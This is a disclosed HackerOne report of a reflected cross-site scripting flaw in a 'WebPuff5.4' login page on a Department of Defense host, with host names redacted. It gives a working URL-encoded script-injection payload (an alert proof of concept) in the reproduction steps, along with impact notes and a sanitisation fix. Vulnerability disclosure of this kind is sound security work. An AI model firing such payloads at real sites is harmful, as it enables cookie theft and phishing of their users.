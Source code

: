 # Reflected XSS

## Report Details
- **Report ID**: 1390131
- **URL**: https://hackerone.com/reports/1390131
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-11-02T22:49:12.055Z
- **Disclosed**: 2023-01-06T19:14:56.813Z

## Reporter
- **Username**: f6x
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Description:**
Hi i found a XSS at a new IP Address (ssl points to ███hostname)


https://███████/WebPuff5.4/Login?signIn=Sign%20In&password=g00dPa%24%24w0rD&url=login.jsp%27%22()%26%25%3Cacx%3E%3CScRiPt%20%3Ealert(9868)%3C/ScRiPt%3E&username=tMtFQiRt

## References
https://owasp.org/www-community/attacks/xss/

## Impact

With the help of xss a hacker or attacker can perform social engineering on users by redirecting them from real website to fake one. hacker can steal their cookies and download a malware on their system, and there are many more attacking scenarios a skilled attacker can perform with xss.

## System Host(s)
███████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
click here and a alert will popup https://█████/WebPuff5.4/Login?signIn=Sign%20In&password=g00dPa%24%24w0rD&url=login.jsp%27%22()%26%25%3Cacx%3E%3CScRiPt%20%3Ealert(9868)%3C/ScRiPt%3E&username=tMtFQiRt

## Suggested Mitigation/Remediation Actions
Sanitize special character in the url



## Attachments
No attachments
